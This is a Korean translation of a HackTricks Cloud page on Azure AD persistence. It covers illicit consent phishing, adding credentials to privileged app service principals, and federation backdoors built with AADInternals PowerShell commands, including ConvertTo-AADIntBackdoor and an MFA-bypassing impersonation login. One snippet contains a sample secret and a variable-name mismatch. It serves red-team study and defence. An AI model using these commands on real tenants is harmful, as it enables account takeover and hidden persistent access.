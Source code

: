 # Az - 지속성

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

### 부정한 동의 부여

기본적으로 모든 사용자는 Azure AD에서 응용 프로그램을 등록할 수 있습니다. 따라서 특정 테넌트를 위한 응용 프로그램을 등록할 수 있습니다. 이 응용 프로그램은 관리자 동의(관리자인 경우 승인)가 필요한 고영향 권한(사용자 대신 메일 보내기, 역할 관리 등)을 필요로 합니다. 이를 통해 **피싱 공격을 실행**할 수 있으며, 성공할 경우 매우 **효과적**일 것입니다.

또한 응용 프로그램을 자신의 사용자로 수락하여 액세스를 유지할 수도 있습니다.

### 응용 프로그램 및 서비스 주체

응용 프로그램 관리자, GA 또는 microsoft.directory/applications/credentials/update 권한을 가진 사용자 지정 역할을 사용하여 기존 응용 프로그램에 자격 증명(비밀 또는 인증서)을 추가할 수 있습니다.

**높은 권한을 가진 응용 프로그램을 대상으로**하거나 **높은 권한을 가진 새 응용 프로그램을 추가**할 수 있습니다.

응용 프로그램에 추가할 수 있는 흥미로운 역할 중 하나는 **특권 인증 관리자 역할**입니다. 이 역할은 **글로벌 관리자의 비밀번호를 재설정**할 수 있도록 합니다.

이 기술은 또한 **MFA 우회**를 허용합니다.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 인증서 기반 인증
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### 연합 - 토큰 서명 인증서

온프레미스 AD에서 **DA 권한**을 가지고 있다면 매우 오랜 유효 기간을 가진 **새로운 토큰 서명** 및 **토큰 해독 인증서**를 생성하고 가져올 수 있습니다. 이를 통해 우리는 우리가 알고 있는 ImuutableID를 가진 **모든 사용자로 로그인**할 수 있습니다.

다음 명령을 **ADFS 서버에서 DA로 실행**하여 새로운 인증서를 생성하고(default password 'AADInternals'), ADFS에 추가하고 자동 롤오버를 비활성화하고 서비스를 다시 시작하십시오:
```powershell
New-AADIntADFSSelfSignedCertificates
```
그럼, Azure AD와 인증서 정보를 업데이트하세요:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### 연합 - 신뢰하는 도메인

GA 권한이 있는 테넌트에서는 **새 도메인을 추가**할 수 있으며(검증되어야 함), 해당 도메인의 인증 유형을 연합으로 구성하고 도메인을 **특정 인증서**(아래 명령어의 any.sts) 및 발급자를 신뢰하도록 구성할 수 있습니다:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 참고 자료

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 팁을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
{% endhint %}
